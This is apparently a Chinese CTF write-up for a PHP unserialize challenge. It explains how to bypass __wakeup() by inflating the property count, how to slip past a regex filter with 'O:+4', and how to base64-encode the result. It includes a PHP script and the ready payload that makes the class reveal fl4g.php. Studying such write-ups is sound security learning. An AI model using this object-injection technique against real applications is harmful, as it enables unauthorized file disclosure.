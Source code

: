 第一步我也说了，需要绕过去那个_wakeup函数

> **__wakeup()**是在反序列化操作中起作用的魔法函数，当unserialize的时候，会检查是否存在__wakeup()函数，如果存在的话，会优先调用__wakeup()函数。

绕过方法：_wakeup函数漏洞就是与对象的属性个数有关，如果序列化后的字符串中表示属性个数的数字与真实属性个数一致，那么就会调用这个函数，但是如果这个数字大于真实属性的个数，那就会绕过这个函数。

第二步绕过正则检查，否则就直接输出stop了，这个正则检查这句拉出来单独再分析一下

> 正则匹配的规则是:在不区分大小写的情况下 ， 若字符串出现 “o:数字” 或者 "c:数字’ 这样的格式 ， 那么就被过滤。很明显，因为 serialize() 的参数为 object ，因此参数类型肯定为对象 " O " ， 又因为序列化字符串的格式为 参数格式:参数名长度 ， 因此 " O:4 " 这样的字符串肯定无法通过正则匹配

绕过方法：O:+4不会被过滤，且最后的值不会发生变化

第三步绕过就是要是base64加密

绕过方法:直接加密就行。

脚本如下

```
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}

//创建对象
$a = new Demo('fl4g.php');
//对对象1进行序列化
$b = serialize($a);
//绕过正则
$b = str_replace('O:4','O:+4',$b);
//绕过_wakeup函数
$b = str_replace(':1:',':2:',$b);
//base加密
var_dump($b);
var_dump(base64_encode($b));
?>
```

```
运行结果
string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
```
